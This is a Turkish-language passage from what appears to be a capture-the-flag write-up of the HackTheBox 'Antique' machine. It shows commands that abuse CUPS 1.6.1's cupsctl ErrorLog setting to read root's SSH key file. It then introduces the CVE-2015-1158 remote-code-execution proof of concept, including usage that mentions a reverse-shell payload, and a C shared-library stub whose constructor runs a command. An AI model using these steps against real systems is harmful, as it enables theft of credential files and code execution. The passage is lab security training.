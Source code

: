 rockyou.txt dosyasının tamamını çalıştırmak 8 saatten fazla sürecek ve şifreyi bulamayacak.

Ayrıca /root/.ssh/id_rsa dosyasında bir SSH anahtarı olup olmadığını kontrol edeceğim, ancak dosya mevcut değil:

```
lp@antique:/dev/shm$ cupsctl ErrorLog=/root/.ssh/id_rsa
lp@antique:/dev/shm$ curl 127.0.0.1:631/admin/log/error_log?
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
        <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
        <TITLE>Not Found - CUPS v1.6.1</TITLE>
        <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
</HEAD>
<BODY>
<H1>Not Found</H1>
<P></P>
</BODY>
</HTML>
```

Beyond Root'ta istenmeyen bir şekilde bir shell alacağım.

## Beyond Root

### CVE-2015-1158
Google'da CUPS güvenlik açıklarını ararken, CUPS < 2.0.3'te remote code execution olan ve 1.6.1'i de içerebilecek CVE-2015-1158 ile karşılaştım.

[Bu script](https://github.com/0x00string/oldays/blob/master/CVE-2015-1158.py) bir POC, bu yüzden deneyeceğim.

İndirdiğimde bir Python2 script olduğunu ve çalıştırmak için bir host, bir port ve bir library gerektiğini gördüm:

```
oxdf@hacky$ python2 cve-2015-1158.py             ...[snip]...
python script.py <args>
   -h, --help:             Show this message
   -a, --rhost:            Target IP address
   -b, --rport:            Target IPP service port
   -c, --lib               /path/to/payload.so
   -f, --stomp-only        Only stomp the ACL (no postex)

Examples:
python script.py -a 10.10.10.10 -b 631 -f
python script.py -a 10.10.10.10 -b 631 -c /tmp/x86reverseshell.so
```

Basit bir .so dosyası oluşturacağım:

```
#include<stdio.h>
#include<stdlib.h>

void __attribute__((constructor)) evil();

void main() {};

void evil() {
    system("touch /0xdf");
}
```
